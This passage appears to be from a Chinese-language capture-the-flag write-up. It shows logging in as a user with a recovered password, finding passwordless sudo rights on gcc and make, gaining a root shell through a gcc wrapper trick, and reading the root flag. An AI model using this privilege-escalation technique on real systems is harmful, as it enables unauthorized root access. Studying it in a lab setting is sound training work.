 解出来为`string` ,再次`su` ，没登陆进去，经提示是作者疏忽`?`将`MD5`值最后少了个`1` （怪不得`john`无法破解）

```bash
b45cffe084dd3d20d928bee85e7b0f21
```

再次切换

```bash
www-data@debian:/home/rodgar$ su rodgar 
su rodgar
Password: b45cffe084dd3d20d928bee85e7b0f21
id
uid=1001(rodgar) gid=1001(rodgar) grupos=1001(rodgar)
```

查看权限，欸嘿，可以直接提权了

```bash
sudo -l
Matching Defaults entries for rodgar on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User rodgar may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /usr/bin/gcc, /usr/bin/make
```

![image.png](image%20117.png)

```bash
sudo gcc -wrapper /bin/sh,-s .
id
uid=0(root) gid=0(root) grupos=0(root)
```

读取`RootFlag` ，`root`.txt文件被改为了`rooo_-tt.txt`

```bash
cat rooo_-tt.txt
44b3f261e197124e60217d6ffe7e71a8e0175ae0
```